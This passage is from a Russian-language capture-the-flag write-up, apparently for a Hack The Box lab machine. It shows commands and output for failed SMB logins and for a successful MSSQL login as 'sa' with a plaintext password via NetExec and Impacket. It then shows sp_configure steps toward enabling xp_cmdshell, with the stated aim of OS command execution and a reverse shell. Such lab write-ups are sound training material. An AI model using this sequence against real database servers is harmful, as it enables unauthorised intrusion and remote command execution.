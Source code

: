 ```
Hexada@hexada ~/app/escape-two/accounts/xl$ smbclient -L //escape.two.htb -U 'kevin'                                                                              
Password for [WORKGROUP\kevin]:
session setup failed: NT_STATUS_LOGON_FAILURE
```

```
Hexada@hexada ~/app/escape-two/accounts/xl$ smbclient -L //escape.two.htb -U 'sa'                                                                                                     1 ↵  
Password for [WORKGROUP\sa]:
session setup failed: NT_STATUS_LOGON_FAILURE
```

Если обратить внимание на пароль пользователя `sa`, интуитивно мы можем понять, что через него мы можем подключиться к **MSSQL** (1433 порт)
```
Hexada@hexada ~/app/pentesting-tools/NetExec/nxc$ poetry run python3 netexec.py mssql escape.two.htb -u sa -p MSSQLP@ssw0rd! --local-auth -M mssql_priv                               main

MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@***** (Pwn3d!)
MSSQL_PRIV  10.10.11.51     1433   DC01             [+] sa is already a sysadmin
```

Мы можем увидеть, что у нас есть права **sysadmin**, `sa is already a sysadmin`, поэтому нас интересует `xp_cmdshell`, это расширенная хранимая процедура в Microsoft SQL Server, которая позволяет запускать операционные системные команды и выполнять их через SQL Server, таким образом, так как у нас есть права администратора базы данных, мы можем через неё выполнять различные вредоносные команды, в том числе **reverse shell**
```
Hexada@hexada ~/app/escape-two$ mssqlclient.py sa@10.10.11.51 -p 1433                                                                                                               130 ↵  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

Чтоб активировать `xp_cmdshell`, нам нужно включить несколько пораметров у `sp_configure`. Конкретно эта комадна, включает отображение расширенных параметров конфигурации, в которые входит `xp_cmdshell`. Чтоб изменения в файлах конфигурации начали работать, нам так же нужно вписать еще команду `RECONFIGURE;`
```
SQL (sa  dbo@msdb)> sp_configure 'show advanced options', 1;
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.

SQL (sa  dbo@msdb)> RECONFIGURE;
```
